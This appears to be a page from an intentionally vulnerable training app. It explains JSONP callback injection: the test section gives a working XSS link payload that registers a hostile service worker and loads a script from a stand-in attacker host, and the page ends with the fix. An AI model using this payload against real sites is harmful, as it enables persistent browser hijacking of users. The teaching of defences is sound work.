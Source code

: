 # Poor JSON with Padding (JSONP) Implementation

__What's the vulnerability?__

JSONP is commonly used to circumvent things like Same-Origin Policy if you are trying to fetch data asynchronously from a different domain. For this the developer will expose a function in the global namespace that should be called when the data is being received. To then request the data, they inject a new `script` tag into the page to a JSONP enabled endpoint with a `callback` parameter that specifies the function name that should be called.

The server then wraps the data that it's returning into the respective function call:

```js
// Example /jsonp?callback=myDataCallback
// server responds with:
myDataCallback({ data: [/*...*/] })
```

If a JSONP endpoint is poorly implemented you could use this to generate your own JavaScript though:

```js
// Example /jsonp?callback=alert(1);//
alert(1);//({ data: [/*...*/]})
```

As you can see we are not even interested in the actual data in this case. But we can use this in combination with an existing XSS vulnerability for example to install [dangerous service worker implemenations].

__How can the vulnerability be tested?__

You can try this by combining it with our existing XSS vulnerability in the application by visiting the [home page] and posting the following content:

```markdown
[You won't believe this!!!!!!](javascript&#58this;navigator.serviceWorker.register("/post?callback=onfetch=function(e&#41;{if(!(e.request.url.indexOf(':4000'&#41;>0&#41;&#41;{e.respondWith(new	Response('<h1>Hacked</h1><script	src=\\'https://evil.onesie.life/hook.js\\'	type=\\'text/javascript\\'></script>',	{headers:	{'Content-Type':'text/html'}}&#41;&#41; }else{e.fetch(e.request&#41;}}//"&#41;)
```

If you then click the link, it will install a service worker. From that point on any resource the browser is trying to fetch will be overriden with the following HTML:

```html
<h1>Hacked</h1>
<script src="https://evil.onesie.life/hook.js"></script>
```

While in this case we are overriding the whole HTML an attacker could also fetch the original one and only append/inject their own script. 

To uninstall the service worker in Chrome open the developer tools, click on the Applications tab and unregister the service worker you see.

__What causes this vulnerability?__

By not properly checking the value of the `callback` query parameter we basically allow to pass in aribitary JavaScript since the attacker could just end their input with `//` to turn the remaining part into a comment.

Since Service Workers have to be from the same domain as the page itself, it's the perfect way for an attacker to inject their own service worker.

__How can this be fixed?__

You should either only whitelist a set of valid `callback` values or verify that the callback parameter only contains word characters but nothing else. 